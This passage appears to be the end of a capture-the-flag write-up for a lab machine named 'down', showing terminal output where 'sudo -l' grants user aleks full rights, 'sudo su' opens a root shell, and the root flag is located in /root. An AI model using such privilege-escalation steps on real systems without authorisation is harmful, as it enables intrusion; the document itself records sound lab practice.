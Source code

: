 ```
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```
So I went ahead and got the root shell with `sudo su`
```
aleks@down:~$ sudo su
root@down:/home/aleks# cd /root
root@down:~# ls -la
total 48
drwx------  6 root root 4096 May 27 23:54 .
drwxr-xr-x 20 root root 4096 May 27 22:03 ..
lrwxrwxrwx  1 root root    9 May  1 22:31 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Apr 21 10:53 .cache
-rw-------  1 root root   20 May 27 23:54 .lesshst
drwxr-xr-x  3 root root 4096 Sep 15  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r------w-  1 root root   33 Apr  8  2025 root.txt
-rw-r--r--  1 root root   66 Apr  8  2025 .selected_editor
drwx------  3 root root 4096 Sep  6  2024 snap
drwx------  2 root root 4096 Sep  6  2024 .ssh
-rw-r--r--  1 root root    0 May  1 22:26 .sudo_as_admin_successful
-rw-------  1 root root 2444 May 27 13:06 .viminfo
```
The root flag can be obtained at `/root/root.txt`


